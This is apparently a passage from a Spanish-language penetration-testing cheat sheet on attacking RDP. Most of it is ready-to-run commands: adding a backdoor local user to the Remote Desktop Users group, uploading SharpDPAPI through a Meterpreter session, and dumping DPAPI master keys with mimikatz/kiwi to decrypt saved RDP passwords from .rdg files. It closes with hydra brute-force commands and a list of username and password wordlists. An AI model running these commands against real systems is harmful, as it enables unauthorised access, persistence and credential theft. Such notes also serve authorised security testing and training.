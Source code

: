 <br>

<h3 id="RDP2">Agregando Usuario a RDP, Leyendo Archivo .rdg y Desencriptando Contraseña de RDP con SharpDPAPI</h3>

```bash
# Creando un nuevo usuario y agregandolo al RDP, en caso de que este abierto
net user nombre_usuario contraseña /add  # Agrega usuario localmente (no a dominio)
net localgroup "Remote Desktop users" nombre_usuario /add
net user nombre_usuario


# Buscar archivo .rdg y RDCMan, esto indica que hay otras máquinas conectadas por RDP


# Leyendo archivo .rdg, tiene las contraseñas encriptadas
cat Production-Server.rdg


# Pasos para desencriptar contraseña para RDP usando SharpDPAPI.exe
# Desencriptando contraseña con SharpDPAPI.exe de un archivo rdg
upload /root/Desktop/tools/SharpDPAPI.exe
shell

# La respuesta nos pide una masterkey, la obtenemos cargando kiwi y usando mimikatz
SharpDPAPI.exe rdg /unprotected
load kiwi

# Obteniendo masterkey
kiwi_cmd sekurlsa::dpapi 

# masterkey esta encriptada, busca el GUID que te dio SharpDPAPI y copialo, ahora busca el sha1(key) y copialo seguido, algo asi:
{GUID}:sha1(key)
shell
SharpDPAPI.exe rdg {GUID}:sha1(key)
```

<br>

<h3 id="RDP3">Aplicando Fuerza Bruta al RDP</h3>

```bash
# Aplicando fuerza bruta al RDP (es bueno usar -t e indicar una cantidad minima de hilos, para evitar DoS)
hydra -L <wordlists_usuarios> -P <wordlists_contraseñas> rdp://<IP> -s <Puerto>
hydra -l Administrator -P <wordlists_contraseñas> rdp://<IP> -s <Puerto>

Ej: hydra -L /Desktop/valid_users.txt -P /usr/share/rockyou.txt rdp://192.168.1.15 -s 3389

Wordlists:
*Usuarios: /usr/share/metasploit-framework/data/wordlists/common_users.txt
*Usuarios2: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
*Usuarios3: /usr/share/seclists/Usernames/top-usernames-shortlist.txt
*Usuarios4: /usr/share/metasploit-framework/data/wordlists/unix_users.txt
*Contraseñas: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
*Contraseñas2: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
*Contraseñas3: /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
*Contraseñas4: /usr/share/seclists/Passwords/seasons.txt
*Contraseñas5: /usr/share/seclists/Passwords/months.txt
*Contraseñas6: /usr/share/seclists/Passwords/common_corporate_passwords.lst
*Contraseñas nuclear: /usr/share/wordlists/rockyou.txt
```
